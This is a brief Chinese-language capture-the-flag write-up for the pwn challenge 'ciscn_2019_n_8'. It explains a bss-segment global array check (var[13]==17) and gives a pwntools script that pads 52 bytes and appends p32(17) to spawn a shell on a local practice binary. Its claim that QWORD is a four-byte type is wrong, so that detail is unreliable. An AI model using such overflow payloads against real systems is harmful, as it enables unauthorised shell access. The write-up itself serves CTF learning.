

## 0x001 程序分析

分析main函数



该函数中使用scanf接收输入，将结果保存在 **var** 中。判断 **var[13]** 有值并且等于 **17**，就可以直接获取系统权限。

## 0x002 漏洞分析

该程序接受输入的 **var** 是全局变量，位于bss段中，可能存在bss段溢出。

## 0x003 漏洞利用

因为程序中直接通过输入使 **var[13] == 17** 即可获取系统权限，因此就没必要考虑的太过复杂。

由于比较使用的是 QWORD 四字节类型，因此 **var[13]** 实际相当于长度 13 * 4 = 52。

python3 exp如下：
```
from pwn import *

p = process("./ciscn_2019_n_8")

payload = b"A" * 52 + p32(17)

p.sendline(payload)
p.interactive()
```